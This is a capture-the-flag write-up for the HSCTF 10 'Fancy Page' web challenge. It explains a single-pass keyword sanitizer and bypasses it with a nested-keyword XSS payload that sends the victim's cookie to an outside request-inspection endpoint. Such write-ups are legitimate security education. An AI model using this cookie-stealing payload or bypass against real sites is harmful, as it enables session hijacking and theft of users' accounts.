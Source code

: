 ```yaml
---
title: HSCTF 10 - Fancy Page
date: Thu Jun  8 12:53:17 AM +04 2023
categories: [Writeup]
tags: [ctf,hsctf2023,web]
---
```


## Description

web/fancy-page (by hmmm) | 436 points

[http://fancy-page.hsctf.com](http://fancy-page.hsctf.com/)

Downloads: [fancy-page.zip](https://hsctf-10-resources.storage.googleapis.com/uploads/b953fd4d6d7423374872f73b969955d9fb52781776c9ed1c303abb18250d2eb6/fancy-page.zip)

## Analysis

Fancy Page™ is a website which allows us to write content which is shareable.

Website allows html tags which means possible XSS attack.
![fancy-page-1](/assets/images/HSCTF/2023/fancy-page-1.png)

There's also share button [Show us what you've created!](http://admin-bot.hsctf.com/fancy-page), which means that (*most likely*) we will need a cookie stealer XSS.

**[display.js](http://fancy-page.hsctf.com/scripts/display.js)** sanitizes some keyword which could prevent XSS payloads.

```js
function sanitize(content) {
	return content.replace(/script|on|iframe|object|embed|cookie/gi, "");
}
```

Sanitize happens only once
```js
let sanitized = sanitize(Arg("content"));
content.innerHTML = sanitized;
```
## Solution

I used [Reflected Steal Cookie](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) to create an XSS payload and [beeceptor](https://beeceptor.com) to inspect requests.

```html
<img src=UwU oonnerror="this.src='https://klgrthio.free.beeceptor.com?'+document.coocookiekie; this.removeAttribute('oonnerror');">
```
`oonnerror` and such are writter like  this because when `sanitize` functions removes this what is left is `onerror` which triggers the XSS.

Finally we share the URL and get the flag.
![fancy-page-2](/assets/images/HSCTF/2023/fancy-page-2.png)
